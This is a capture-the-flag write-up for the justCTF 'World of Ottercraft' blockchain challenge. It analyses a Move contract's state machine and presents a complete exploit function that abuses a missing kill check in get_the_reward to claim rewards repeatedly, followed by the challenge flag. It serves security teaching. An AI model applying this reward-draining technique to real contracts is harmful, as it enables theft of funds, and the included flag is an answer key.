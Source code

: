 # World of Ottercraft

## Challenge
> Welcome to the World of Ottercraft, where otters rule the blockchain! In this challenge, you'll dive deep into the blockchain to grab the mythical Otter Stone! Beware of the powerful monsters that will try to block your path! Can you outsmart them and fish out the Otter Stone, or will you just end up swimming in circles?

  Challenge created by [embe221ed](https://embe221ed.dev/) & Darkstar49 from [OtterSec](https://osec.io/blog)

  `nc tos.nc.jctf.pro 31337`

  https://s3.cdn.justctf.team/a951edfb-bd5f-40a0-b334-ad650d889ac3/woo_docker.tar.gz

The setup is the same as for The Otter Scrolls

## The Otter Stone
We are given another little text adventure which is about slaying monster and buying gear.
But this time it uses a more complex state machine.
Once again the monster slaying business is not profitable and we must resort to other methods.

### State Machine
Analyzing the state machine is a good way to find bugs.
The following states exist:
* `PREPARE_FOR_TROUBLE`
* `ON_ADVENTURE`
* `RESTING`
* `SHOPPING`
* `FINISHED`

And the state transitions:
* `enter_tavern`: `RESTING` -> `SHOPPING`
* `checkout`: Any -> `RESTING`
* `find_a_monster`: `PREPARE_FOR_TROUBLE` | `RESTING` -> `PREPARE_FOR_TROUBLE`
* `bring_it_on`: `PREPARE_FOR_TROUBLE` -> `ON_ADVENTURE`
* `return_home`: `ON_ADVENTURE` -> `FINISHED`
* `get_the_reward`: `FINISHED` | `SHOPPING` -> `RESTING`

Two interesting things stand out:
1. The `checkout` function allows all incoming states
2. The `get_the_reward` function allows `SHOPPING` as input

Both of these are unexpected and likely a source of bugs.

### Exploit
The `get_the_reward` function doesn't check if a monster is killed.
It always gives the reward for the monster at the index that was passed to `bring_it_on`.
So if we use `enter_tavern` to get to `SHOPPING` and then use `get_the_reward` a reward will be claimed without the need to kill the monster.
One problem is that `enter_tavern` gives us a ticket that must be returned to the contract, we cannot delete it.
So we must call `checkout` afterwards but to call checkout we must buy at least one item.
So additionally we must buy the cheapest item.
But luckily the monster reward is always larger than the cheapest item in the tavern.

Here is the full exploit:
```
    public fun solve(
        board: &mut Otter::QuestBoard,
        vault: &mut Otter::Vault<OTTER>,
        player: &mut Otter::Player,
        ctx: &mut TxContext
    ) {
        // buy gear to slay first monster
        let mut ticket = challenge::Otter::enter_tavern(player);
        challenge::Otter::buy_sword(player, &mut ticket);
        challenge::Otter::checkout(ticket, player, ctx, vault, board);

        // fill monster stack
        let mut i = 0;
        while (i < 25) {
            i = i + 1;
            challenge::Otter::find_a_monster(board, player);
        };

        // kill one monster
        challenge::Otter::bring_it_on(board, player, 0);
        challenge::Otter::return_home(board, player);
        challenge::Otter::get_the_reward(vault, board, player, ctx);

        // claim reward for all other monsters
        i = 0;
        while (i < 24) {
            i = i + 1;
            ticket = challenge::Otter::enter_tavern(player);
            challenge::Otter::buy_shield(player, &mut ticket);
            challenge::Otter::get_the_reward(vault, board, player, ctx);
            challenge::Otter::checkout(ticket, player, ctx, vault, board);
        };

        // buy flag
        ticket = challenge::Otter::enter_tavern(player);
        challenge::Otter::buy_flag(&mut ticket, player);
        challenge::Otter::checkout(ticket, player, ctx, vault, board);
    }
```
The exploit flow is as follows:
1. Buy some gear so we can slay a monster
2. Use the fact that `find_a_monster` allows us to store up to 25 monsters
3. Kill one monster to get back to `RESTING`
4. Claim the reward for all other monsters by:
    1. Use `enter_tavern` to get to `SHOPPING`
    2. Buy something so we can use `checkout` later
    3. Get the coins with `get_the_reward`
    4. Use `checkout` to get rid of the ticket from `enter_tavern`
5. Buy the flag

The server then responds with the flag `justCTF{Ott3r_uses_expl0it_its_sup3r_eff3ctiv3}`
